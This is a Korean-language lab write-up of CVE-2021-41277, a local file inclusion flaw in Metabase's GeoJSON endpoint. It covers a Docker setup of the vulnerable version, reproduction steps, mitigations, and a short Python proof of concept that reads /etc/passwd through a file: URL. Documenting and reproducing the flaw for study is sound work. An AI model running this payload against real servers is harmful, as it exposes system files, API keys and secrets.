


# CVE-2021-41277(Metabase)

> whs4 [안민기(@Sn0wyDay)](https://github.com/Sn0wyDay)
> 

---

# CVE-2021-41277 - Metabase Local File Inclusion (LFI)

## 1. 취약점 요약

- CVE : CVE-2021-41277
- 제품 : Metabase
- 영향 버전 : 0.40.0 ~ 0.40.4
- 취약점 종류 : Local File Inclusion (LFI), Information Disclosure

---

## 2. 취약점 설명

Metabase의 GeoJSON 기능은 사용자가 지정한 URL을 통해 GeoJSON 파일을 가져옴.

취약한 버전에서는 URL에 대한 검증이 충분하지 않아 `file://`  스킴을 사용 가능.

공격자는 이를 이용하여 서버 내부 파일 읽을 수 있음.

예시

```
file:///etc/passwd
```

이를 통해

- /etc/passwd
- 환경설정 파일
- API Key
- Secret

등의 정보가 노출 가능.

---

## 3. 환경 구성

- 운영체제 : Ubuntu 22.04 (Docker Container)
- Metabase : 0.40.4
- Docker
- Docker Compose

```yaml
# docker-compose.yml
services:
  metabase:
    image: metabase/metabase:v0.40.4
    container_name: cve-2021-41277
    ports:
      - "3000:3000"
```

---

## 4. 취약 조건

- Metabase 0.40.0 ~ 0.40.4 사용
- 공격자가 GeoJSON 기능을 통해 URL 입력 가능
- [file://](file://) 스킴이 차단되지 않아야 함

---

## 5. 재현 절차

1. 준비된 `docker-compose.yml` 파일이 위치한 디렉터리에서 `docker compose up -d` 명령어를 실행
2. 서비스 초기화 대기 `docker logs -f cve-2021-41277` 명령어로 확인 가능
3. 서비스가 완전히 구동된 것을 확인한 후, `python3 exploit.py` 명령어 실행
4. /etc/passwd 파일의 내용 반환

---

## 6. PoC 코드

```python
import requests

def exploit(target_url):
    payload_url = f"{target_url}/api/geojson?url=file:/etc/passwd"
    try:
        response = requests.get(payload_url)
        if "root:x:0:0" in response.text:
            print(response.text)
        else:
            print("실패")
    except Exception as e:
        print(f"Error: {e}")

if __name__ == "__main__":
    exploit("http://localhost:3000")
```

---

## 7. 실행 결과





- 스크립트가 타겟 서버의 취약한 API 엔드포인트로 조작된 요청을 전송
- 서버가 정상적으로 취약점에 반응하여 /etc/passwd 파일의 내용을 응답으로 반환
- 터미널에 시스템 계정 정보가 출력되므로, 해당 서버가 LFI 취약점에 노출 되어 있음

---

## 8. 대응 방안

- 버전 업데이트 : Metabase를 취약점이 패치된 v0.40.5 이상으로 업데이트
- 입력값 검증 : API 엔드포인트에서 입력받는 URL 파라미터에 대한 화이트리스트 검증 로직 추가
